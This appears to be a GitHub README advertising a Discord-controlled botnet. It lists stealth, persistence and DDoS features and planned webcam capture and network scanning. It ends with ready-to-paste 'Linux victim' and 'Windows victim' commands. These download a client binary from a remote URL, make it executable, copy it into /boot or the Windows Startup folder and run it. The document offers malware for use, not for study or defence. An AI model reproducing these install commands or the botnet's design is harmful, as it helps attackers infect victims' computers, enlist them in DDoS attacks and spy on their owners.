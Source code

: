 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Soon (self cmds)
* Zmap entine network scan
* Webcam picture
* ?

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849645-908bde50-bd0a-49fa-9a8a-1f948953677e.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; cp Client /boot; ./Client

# Windows victim
cd %temp% && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe && copy Client.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && Client.exe
